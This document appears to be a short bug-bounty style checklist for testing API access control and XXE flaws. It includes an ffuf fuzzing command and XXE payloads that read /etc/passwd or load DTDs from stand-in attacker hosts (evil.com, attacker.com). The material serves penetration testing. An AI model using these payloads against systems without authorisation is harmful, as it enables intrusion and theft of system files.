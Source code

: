 # 🌍 API & XML Security Testing

This document details **manual and automated testing** for **API security issues, XXE vulnerabilities, and sensitive data exposure.**

---

## **1️⃣ Identifying API & XML Endpoints**

### **Extract API & XML Endpoints**
```bash
cat auth_pages.txt | grep -Ei "/(api/xml|upload/xml|data)" > api_xml_pages.txt
```
✅ **Filters API and XML-related endpoints for further testing.**

---

## **2️⃣ API Security Testing**

### **Check for Unprotected API Endpoints**
- **Look for public API responses that return sensitive data.**
- **Inspect API calls in Burp Suite for missing authentication headers.**

### **Test for Broken Access Control in API Requests**
- **Modify `userID` or `accountID` in API requests and check for unauthorized access.**
- **Use Burp Suite to test IDOR vulnerabilities.**

### **Fuzz API Parameters for Hidden Endpoints**
```bash
ffuf -u https://target.com/api/FUZZ -w wordlist.txt -mc 200
```
✅ **Finds undocumented API endpoints.**

---

## **3️⃣ XML External Entity (XXE) Testing**

### **Basic XXE Payload**
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```
✅ **If `/etc/passwd` is returned in the response, report XXE vulnerability.**

### **Out-of-Band XXE Testing (OOB)**
- **Use Burp Collaborator to test if the server makes external requests.**
- **Replace `file:///etc/passwd` with `http://attacker.com/payload.xml`.**

### **Test for Local & Remote DTD Injection**
```xml
<!ENTITY xxe SYSTEM "http://evil.com/malicious.dtd">
```
✅ **If the server loads the external DTD, report XXE.**

---

### **🚀 Now, API & XML mechanisms are fully tested for security vulnerabilities!**

